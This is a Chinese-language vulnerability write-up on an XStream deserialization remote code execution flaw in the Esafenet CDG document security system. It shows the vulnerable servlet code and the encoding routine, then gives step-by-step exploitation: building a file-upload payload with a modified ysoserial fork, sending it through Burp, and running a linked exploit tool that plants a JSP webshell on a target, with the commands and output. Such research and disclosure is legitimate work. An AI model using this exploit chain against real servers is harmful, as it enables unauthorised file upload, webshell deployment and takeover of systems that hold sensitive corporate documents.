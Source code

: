 ```yaml
---
created: 2024-09-30T06:03:00+00:00
categories:
  - 技术研究
tags:
  - RCE
updated: 2023-01-09T00:00:00+00:00
date: 2022-12-05T00:00:00+00:00
slug: cdg-xstream-deserialization-arbitrary-file-upload
title: 亿赛通电子文档安全管理系统XStream反序列化远程代码执行漏洞
cover: https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/8dacce6c-108b-4596-aa3e-50feec2412f4/burp-1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050157Z&X-Amz-Expires=3600&X-Amz-Signature=2800e032752205193a980c3b057e2b5b63ac427a398736cb372a1322291f3bd3&X-Amz-SignedHeaders=host&x-id=GetObject
id: 111906e1-7468-8077-b828-c9badccc4dac
---
```


## 漏洞简介

亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全防护软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产。亿赛通电子文档安全管理系统引用了低版本存在反序列化漏洞的 XStream 库，攻击者可利用该漏洞对服务器上传任意文件，进而控制服务器权限。

## 影响版本

- <= 820

## 漏洞分析

依赖位于`WEB-INF/lib/jhiberest.jar`文件，反编译后可以很明显的发现存在 XStream 的写法，并且 XStream 的版本用的也是低版本的，1.4.9 版本。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/c23ce195-dec5-4012-89cd-80709bbe29d6/cdg-systemservice.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=9aa16c63678213e6dc87789c04724022db481f54d7cc3828c7f0cadc9429ef69&X-Amz-SignedHeaders=host&x-id=GetObject)

同时，此类在 web.xml 文件中的对应关系如下，由于 CDG 的 Web 根路径是`/CDGServer3`，那么当请求路径是`/CDGServer3/SystemService`时，请求将会由如下`com.esafenet.servlet.service.cdgfile.SystemService`类来处理。

```xml
<servlet>
	<servlet-name>SystemService</servlet-name>
	<servlet-class>
		com.esafenet.servlet.service.cdgfile.SystemService
	</servlet-class>
</servlet>
```

也就是上图存在 XStream 的`SystemService`类，关键代码已贴至下面。

```java
public class SystemService extends HttpServlet {
    private static final Log log = LogFactory.getLog(FilesService.class);
    private static String retrunString = "";
    private static final long serialVersionUID = -3607772408578536033L;
    private XStream xStream = ServiceUtil.getStream();
    private UserDao userDao = new UserDao();
    private UsbKeyDao usbKeyDao = new UsbKeyDao();
    private SecretDocDao secretDocDao = new SecretDocDao();
    private SecretUserDao secretUserDao = new SecretUserDao();

    public void service(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            String command = request.getParameter("command").toString();
            if (command != null && command.length() > 0) {
                switch (CommandConstants.getCommandValue(command)) {
                    case CommandConstants.GETSYSTEMINFO /* 1601 */:
                        getSystemInfo(request, response);
                        break;
                }
            }
        } catch (Exception e) {
        }
    }

    private void getSystemInfo(HttpServletRequest request, HttpServletResponse response) {
        SystemReturn systemReturn = new SystemReturn();

        try {
            String xmlStr = ServiceUtil.getXMLFromRequest(request);
            SystemServiceRequest systemServiceRequest = (SystemServiceRequest)this.xStream.fromXML(xmlStr);
            systemReturn.setReturnMessage("OK");
            systemReturn.setSecretKey(DocInfoModel.getCDGKey());

            // ...

        } catch (Exception e2) {
            retrunString = "";
            e2.printStackTrace();
            log.error("取系统信息" + e2.getMessage());
            systemReturn.setReturnMessage(ErrorConstants.SYSTEMSERVICE_ERROR);
            ServiceUtil.sendInfo(request, response, this.xStream.toXML(systemReturn));
        }
    }
}
```

需要接收一个`command`参数，该参数值必须为`GETSYSTEMINFO`才会顺利进入到`getSystemInfo`方法。

```java
String xmlStr = ServiceUtil.getXMLFromRequest(request);
SystemServiceRequest systemServiceRequest = (SystemServiceRequest)this.xStream.fromXML(xmlStr);
```

在触发 XStream 反序列化漏洞之前，`request`还经过`ServiceUtil.getXMLFromRequest`方法的一道处理，就是各种解码。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/5295e83f-e0a1-46d7-afe0-810816a8c634/serviceutil-getxmlfromrequest.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=78d981a5d6c5b1d60ac552c859b3e372dd29a30e7b630bb1886b5cda76fbf8ba&X-Amz-SignedHeaders=host&x-id=GetObject)

对于此，倒也没必要通过其解码的操作来逆向编码的操作，因为负责编码的方法就是`changeXMLInfo`，后面在利用阶段直接调用该方法即可。

```java
public static String changeXMLInfo(String str) throws Exception {
    byte[] abyte1 = str.getBytes();
    int nLength = Array.getLength(abyte1);
    CodeDecoder.Encode(abyte1, nLength, abyte0);
    String src = new String(abyte1, "ISO8859_1");
    return CodeDecoder.getTransferEncrptString(src);
}
```

## 漏洞利用

> 漏洞利用分为两步骤，第一步是构造出恶意的 XStream 反序列化 XML Payload，第二步是将 XML 内容编码成亿赛通电子文档安全管理系统能够接受的字符串。

### 恶意 XML 构造

通过修改[ysoserial-for-woodpecker](https://github.com/woodpecker-framework/ysoserial-for-woodpecker)开源项目。在 CommonsBeanutils2.java 中做如下修改，接受的参数值为`upload_file_base64:..//webapps//CDGServer3//testttttt.txt|YWJjMTIz`，其中|前面的部分是上传至目标服务器的路径，而|后面的部分是上传的内容的 base64 值，`YWJjMTIz` base64 解码后是 abc123。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/1756a3a7-6690-4938-8873-30bb9e8e5906/ysoserial-for-woodpecker-cb2.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=e5abcdadf2d9e231e29b8fc999efb18b9146f72efd5e73bfcf7c3f6bb2d4e306&X-Amz-SignedHeaders=host&x-id=GetObject)

在 PayloadRunner.java 中添加如下行。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/1181760e-4d63-403b-afae-e432786e5cd4/ysoserial-for-woodpecker-payloadrunner.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050157Z&X-Amz-Expires=3600&X-Amz-Signature=da3974c3d8e1ccdf95c0427379aff12564235d417332e13ae0e5264b61882546&X-Amz-SignedHeaders=host&x-id=GetObject)

然后回到`CommonsBeanutils2.main()`点击 Run，就会将恶意的 XML 内容生成并打印出来。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/822b31bd-0597-42ef-a56d-4088e48fbe99/cb2-run.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=5e5bd587bafb59773fd53f4567ad79fb10a38f071a7c200d431169bfc20b5cd5&X-Amz-SignedHeaders=host&x-id=GetObject)

### 编码

直接利用该 jhiberest.jar 包中的`changeXMLInfo`编码方法，同时注意还需导入其他的一些依赖包。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/bb5fd46a-9493-45e4-b55e-f41c20555b62/encode-1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050157Z&X-Amz-Expires=3600&X-Amz-Signature=a6df4220b65e52ee46c39820f0f49120b8001ab5e826d7bad0c26ebade59d793&X-Amz-SignedHeaders=host&x-id=GetObject)

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/7610ce2b-be40-4730-bd14-520fdbda3905/encode-2.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=0ee19b4004d0706a0633f754204a1d1b0e505b5fc512d0c742a71b4384712407&X-Amz-SignedHeaders=host&x-id=GetObject)

最终生成一串编码后的字符串。

### 概念验证

将上面生成的一段编码后的字符串复制至 BurpSuite 点击 Send。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/3fb43b10-389e-4a79-8508-dc0211adf796/burp-1.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050157Z&X-Amz-Expires=3600&X-Amz-Signature=423bbd30fef1054364cb135c0dc05a26f7ee148806adacb6fa5a2abd4fe3e15a&X-Amz-SignedHeaders=host&x-id=GetObject)

然后请求`/CDGServer3/testttttt.txt`路径，可以发现文件已成功上传。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/89314351-61c4-4115-a6a7-473a5e0b804a/burp-2.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=e5e7b044f0b9b0c9ece91968ebeaefd610a47585cc2337ae7ead9dd9d07e8d93&X-Amz-SignedHeaders=host&x-id=GetObject)

### 自动化工具

项目地址：

- [https://github.com/0xf4n9x/CDGXStreamDeserRCE](https://github.com/0xf4n9x/CDGXStreamDeserRCE)

本地文件上传利用。

```shell
~/GitHub/CDGXStreamDeserRCE  ‹main*› $ cat tessssssssssssst1.jsp
<%
out.println("e165421110ba030e165421110ba03099a1c0393373c5b4399a1c0393373c5b43");
%>
~/GitHub/CDGXStreamDeserRCE  ‹main*› $ java -jar CDGXStreamDeserRCE.jar -p http://127.0.0.1:8080 -uf tessssssssssssst1.jsp -t https://192.168.31.190:8443
[+] Exploit Successed
[+] WebShell: https://192.168.31.190:8443/CDGServer3/tessssssssssssst1.jsp
~/GitHub/CDGXStreamDeserRCE  ‹main*› $ curl -k https://192.168.31.190:8443/CDGServer3/tessssssssssssst1.jsp
e165421110ba030e165421110ba03099a1c0393373c5b4399a1c0393373c5b43
```

字符串解码。

```shell
java -jar CDGXStreamDeserRCE.jar -d FEPCCCLCENHIPOAFPAPDDFCGEAPNMDBMOJPMJAKKNPHOKIKIDCBPHEGKLDGNHCBDEIMODEKMKPFBAIMMNLOJJKMIICLAPJAAFGNGAKFBMPKPJMOIKODEJJMHJCCHKBMFMMFDLOMDPABOJCEAPOFDCPMKGDHFNBBIMCIPAMMIIANFPAJHFAABLLLANNIDAGNKOHONJGFGBKHFDMCLJIMICBHBJEIAAIMACN
```

![](https://user-images.githubusercontent.com/40891670/209945515-1539ff6b-e4c4-46a3-8764-7aa3a7568741.png)

## References

- [https://github.com/woodpecker-framework/ysoserial-for-woodpecker](https://github.com/woodpecker-framework/ysoserial-for-woodpecker)
